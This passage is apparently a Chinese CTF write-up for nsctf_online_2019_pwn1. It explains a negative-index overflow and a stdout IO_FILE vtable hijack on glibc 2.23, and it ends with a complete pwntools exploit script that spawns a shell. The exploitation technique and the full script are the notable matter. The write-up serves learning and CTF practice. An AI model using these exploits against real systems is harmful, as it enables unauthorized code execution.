        p.sendline("ls")
        p.sendline("cat flag")
    itr()
    except ：
        p.close()
```

# nsctf\_online\_2019\_pwn1

## ida

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627170511-b8de8b00-14c9-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627170517-bc937724-14c9-1.png)  
edit 函数这检查不严格，存在负数溢出漏洞。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627170526-c18929ea-14c9-1.png)  
这里如果 add 申请的和修改的大小一样的话还存在 off by null 漏洞，但这里我们利用负数溢出来做这个题，这样比较简单。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627170535-c739fffe-14c9-1.png)

## 思路

这里的负数溢出时可以找到 \_IO\_2\_1_stdout_ 结构体指针的，直接打 IO leak 修改\_IO\_2\_1\_stdout\_的\_IO\_write\_base 的低字节为 0x00 和\_flags 为 0xfbad1887，泄露出 libc 的地址  
再次劫持整个\_IO\_2\_1\_stdout\_结构，直接伪造 vtable，篡改\_flags、\_lock、vtable、\_IO\_save\_base 字段，最终劫持 vtable 中的\_IO\_new\_file\_xsputn 函数为 system 函数，执行获取 shell。(利用 puts 的调用链，执行 system("/bin/sh"))

## 详细流程

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627170555-d2b818a2-14c9-1.png)  
offset=(0xa0-0x20)/0x8=0x10

```bash
add(0x100,'a') #0
pl=p64(0xfbad1887)+p64(0)*3+b'\x00'
edit(-0x10,0xa0,pl)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627170620-e1ecc462-14c9-1.png)  
下表也可以看出来

```bash
0x0   _flags
0x8   _IO_read_ptr
0x10  _IO_read_end
0x18  _IO_read_base
0x20  _IO_write_base
0x28  _IO_write_ptr
0x30  _IO_write_end
0x38  _IO_buf_base
0x40  _IO_buf_end
0x48  _IO_save_base
0x50  _IO_backup_base
0x58  _IO_save_end
0x60  _markers
0x68  _chain
0x70  _fileno
0x74  _flags2
0x78  _old_offset
0x80  _cur_column
0x82  _vtable_offset
0x83  _shortbuf
0x88  _lock
0x90  _offset
0x98  _codecvt
0xa0  _wide_data
0xa8  _freeres_list
0xb0  _freeres_buf
0xb8  __pad5
0xc0  _mode
0xc4  _unused2
0xd8  vtable
```

1、篡改\_IO\_FILE 结构体中的 vtable 字段时，要不可避免的填充之前的字段，但如果将\_lock 字段破坏的话，在执行输出函数中最开始上锁的宏\_IO\_acquire\_lock (\_IO\_stdout) 就会崩溃掉，因此需要保证\_lock 字段是正常的。

2、如果想通过直接修改 \_IO\_2\_1_stdout_ 结构体中的字段来 getshell 的话，我们可以将\_flags 字段写入字符串/bin/sh\\x00(是字符串，并非该字符串的地址)，然后将 vtable 修改为\_IO\_2\_1\_stdout\_的地址 +0x10，然后将\_IO\_save\_base 字段 (0x48) 写成 system 地址，最后要将\_lock 字段写入原本正常的值。这样当执行 puts 函数的时候会调用 vtable 中的\_IO\_new\_file\_xsputn 函数，但是 vtable 已经被修改，这个函数的偏移是 0x38，而 vtable 被修改成\_IO\_2\_1\_stdout\_的地址 +0x10，最终调用的是\_IO\_2\_1\_stdout\_的地址 +0x48 的函数指针，而这个位置就是\_IO\_save\_base 字段，里面放的是 system 的地址。而\_IO\_new\_file\_xsputn 函数的第一个参数是\_IO\_2\_1\_stdout\_的地址，而这个地址原本应该是\_flags 字段，但是现在却被写入了/bin/sh 字符串。因此本来正常调用的\_IO\_new\_file\_xsputn 函数如今变成了 system(‘/bin/sh\\x00’),从而获取 shell。(该方法在 libc2.23 以上的版本就无法再使用了)

根据上面的原理，我们再次劫持整个\_IO\_2\_1\_stdout\_结构，直接伪造 vtable，篡改\_flags、\_lock、vtable、\_IO\_save\_base 字段。

\_flags：'/bin/sh\\x00'  
\_IO\_save\_base: system  
\_lock: \_IO\_stdfile\_1\_lock #确保这个\_lock 字段的值是正常的  
vtable: \_IO\_2\_1_stdout_ +0x10

```bash
pl=flat([
    b'/bin/sh\x00',
    p64(0)*8,
    libc.symbols['system']+libc_base, #_IO_save_base
    p64(0)*6,
    p64(0),
    #p64(0)*3,
    libc_base+0x3c6780, #lock
    p64(0),
    p64(0)*8,
    libc_base+libc.symbols['_IO_2_1_stdout_']+0x10 #
    ])
```

## exp

```bash
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'


p=process('./pwn')
#p=remote('node4.buuoj.cn',29025)
elf = ELF('./pwn')
#libc=ELF('./libc-2.23.so')
libc=ELF('/lib/x86_64-linux-gnu/libc-2.23.so')


def duan():
    gdb.attach(p)
    pause()

def add(size,content):
    sla('5.exit\n',str(1))
    sla('Input the size:\n',str(size))
    sa('Input the content:\n',content)

def delete(idx):
    sla('5.exit\n',str(2))
    sla('Input the index:\n',str(idx))

def edit(idx,size,content):
    sla('5.exit\n',str(4))
    sla('Input the index:\n',str(idx))
    sla('Input size:\n',size)
    sa('Input new content:\n',content)

add(0x100,'a') #0
pl=p64(0xfbad1887)+p64(0)*3+b'\x00'
edit(-0x10,0xa0,pl) #
libc_base=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))-0x3c36e0
leak('libc_base',libc_base)
leak('_IO_save_base',libc.symbols['system']+libc_base)
leak('lock',libc_base+0x3c6780)
leak('vtable',libc_base+libc.symbols['_IO_2_1_stdout_']+0x10)

pl=flat([
    b'/bin/sh\x00',
    p64(0)*8,
    libc.symbols['system']+libc_base, #_IO_save_base
    p64(0)*6,
    p64(0),
    #p64(0)*3,
    libc_base+0x3c6780, #lock
    p64(0),
    p64(0)*8,
    libc_base+libc.symbols['_IO_2_1_stdout_']+0x10 #
    ])

edit(-0x10,0xf0,pl)
itr()
```
